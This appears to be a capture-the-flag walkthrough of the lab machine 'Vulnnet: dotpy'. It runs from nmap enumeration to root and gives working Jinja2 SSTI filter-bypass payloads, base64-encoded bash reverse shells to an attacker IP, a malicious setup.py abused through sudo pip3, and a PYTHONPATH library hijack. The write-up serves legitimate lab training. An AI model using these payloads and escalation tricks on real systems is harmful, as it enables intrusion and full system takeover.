 # Vulnnet: dotpy

## Enumeration

cmd: ```sudo nmap -oN nmap/simple 10.10.138.220```

- 8080/tcp open  http-proxy

cmd: ```sudo nmap -sC -sV -p 8080 -oN nmap/open-versions 10.10.138.220```
	
- 8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
	
### Findings
- /login
	- some links, only mailto reveals potential user (hello@vulnnet.com)
	- /register -> allows to create account
- After login
	- Nothing really works on the page
	- Have some user pages
		- Blank page
		- Index
		- 500
- Trying to access /robots.txt

```bash
403			INVALID CHARACTERS DETECTED
Your request has been blocked.
```

- Trying to access /robots

```bash
404			SORRY!
The page you’re looking for was not found.
No results for robots  # <---- hummmm, what is this dude?!
```


## Finding flaws

- Accessing ```/<script>alert(document.location)</script>```
	- Alert pops!! (might need to steal cookies from that address)
- Accessing ```/{{7*'7'}}```
	- No results for 7777777

- **Found:** XSS and STTI

## [Exploring STTI](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f)

- Filters (blocked): , _ []
- Request to leak subclasses
	- Cannot: ```''.__class__.__base__.__subclasses()```
	- Bypass: ```GET /{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}} HTTP/1.1```
	- Subprocess location in MRO: **401** (using classes_dump.txt and finder.py to obtain it)
	
- Request to RCE: ```GET /{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(401)('ping -c 3 10.9.128.84'),shell=True,stdout=-1)}}```
		
- Request to file read: ```GET /{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(401)('ls%20-la',shell=True,stdout=-1)|attr('communicate')()}}```
		

```bash
	drwxr-xr-x  8 web  web   4096 Aug 27 17:53 .
	drwxr-xr-x 18 web  web   4096 Jan 26  2021 ..
	drwxr-xr-x  5 web  web   4096 Dec 21  2020 app
	-rw-r--r--  1 web  web   1254 Dec 21  2020 config.py
	-rw-r--r--  1 web  web  16384 Aug 27 17:53 db.sqlite3
	-rw-r--r--  1 web  web    450 Dec 21  2020 docker-compose.yml
	-rw-r--r--  1 web  web    224 Dec 21  2020 Dockerfile
	-rw-r--r--  1 web  web     34 Dec 21  2020 .dockerignore
	drwxr-xr-x  6 web  web   4096 Dec 21  2020 env
	-rw-r--r--  1 web  web    142 Dec 21  2020 .env
	drwxr-xr-x  8 web  web   4096 Dec 21  2020 .git
	-rw-r--r--  1 web  web    281 Dec 21  2020 .gitignore
	-rw-r--r--  1 web  web    198 Dec 21  2020 gunicorn-cfg.py
	-rw-r--r--  1 root root   888 Jan 29  2021 LICENSE.md
	drwxr-xr-x  2 web  web   4096 Dec 21  2020 media
	drwxr-xr-x  2 web  web   4096 Dec 21  2020 nginx
	-rw-r--r--  1 web  web    612 Dec 21  2020 package.json
	-rw-r--r--  1 web  web     36 Dec 21  2020 Procfile
	drwxr-xr-x  2 web  web   4096 Dec 21  2020 __pycache__
	-rw-r--r--  1 web  web     34 Dec 21  2020 requirements-mysql.txt
	-rw-r--r--  1 web  web     29 Dec 21  2020 requirements-pgsql.txt
	-rw-r--r--  1 web  web    105 Dec 21  2020 requirements.txt
	-rw-r--r--  1 web  web   3104 Jan 29  2021 run.py
	-rw-r--r--  1 web  web     14 Dec 21  2020 runtime.txt
```

- Request to test for ping
	- Using b64 to avoid the "." blacklisting
	- Request: ```GET /{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(401)('echo%20-n%20%22cGluZyAtYyAzIDEwLjkuMTI4Ljg0Cg==%22|base64%20-d|sh',shell=True,stdout=-1)|attr('communicate')()}}```


- Request to RCE
	- unencoded payload: ```/bin/bash -c "bash -i >& /dev/tcp/10.9.128.84/1414 0>&1"```
	- encoded payload: ```L2Jpbi9iYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuMTI4Ljg0LzE0MTQgMD4mMSI=```
	- Request: ```GET/{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(401)('echo%20-n%20%22L2Jpbi9iYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuMTI4Ljg0LzE0MTQgMD4mMSI=%22|base64%20-d|sh',shell=True,stdout=-1)|attr('communicate')()}}```


## Got in

cmd: ```whoami && id```

```bash
web
uid=1001(web) gid=1001(web) groups=1001(web)
```

cmd: ```sudo -l```

```bash
User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
```

## Privescing

cmd: ```mkdir /tmp/www```
cmd: ```cd /tmp/www```
cmd: ```nano setup.py ```

```python
import os
os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.9.128.84/1415 0>&1'")
```

cmd: ```sudo -u system-adm /usr/bin/pip3 install .```

## Got in

cmd: ```whoami && id```

```bash
system-adm
uid=1000(system-adm) gid=1000(system-adm) groups=1000(system-adm),24(cdrom)
```

cmd: ```sudo -l```
	

```bash
User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```
	
## Enumeration
- Script seems ok! it backups manage's home folder
- Can read the backup
	cmd: ```sudo /usr/bin/python3 /opt/backup.py```

```bash
- -rw-r--r--  1 root root      2769 Aug 28 17:52 backup-20210828175259-manage.zip
```

- Since we got SETENV available, we can hijack libraries
		

## Exploitation

cmd: ```mkdir /tmp/waza```
cmd: ```cd /tmp/waza```
cmd: ```nano zipfile.py```

```python
import os

def ZipFile(arg, mode):
	os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.9.128.84/1415 0>&1'")
```

cmd: ```sudo PYTHONPATH=/tmp/waza/ /usr/bin/python3 /opt/backup.py```

## Got in

cmd: ```whoami && id```
	
```bash
root
uid=0(root) gid=0(root) groups=0(root)
```


